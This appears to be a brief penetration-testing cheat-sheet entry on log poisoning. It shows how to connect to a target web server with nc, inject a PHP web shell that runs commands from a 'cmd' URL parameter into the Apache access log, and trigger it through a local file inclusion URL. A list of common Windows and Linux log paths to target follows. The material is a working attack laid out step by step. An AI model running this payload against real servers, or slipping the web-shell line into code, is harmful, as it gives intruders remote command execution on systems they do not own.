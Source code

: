 #### Connect with nc and poison the log:
```bash
nc -nv $TARGET 80
```
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
What the log file looks like:
```bash
http://$TARGET/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```
Common log locations:
Windows xampp
`c:\xampp\apache\logs\access.log`
Linux locations
`/var/log/apache2/access.log`
`/var/log/apache/access.log`
`/var/log/apache/error.log`
`/var/log/apache2/access.log`
`/var/log/apache2/error.log`
`/var/log/nginx/access.log`
`/var/log/nginx/error.log`
`/var/log/vsftpd.log`
`/var/log/sshd.log`
`/var/log/mail`
`/var/log/httpd/error_log`
`/usr/local/apache/log/error_log`
`/usr/local/apache2/log/error_log`
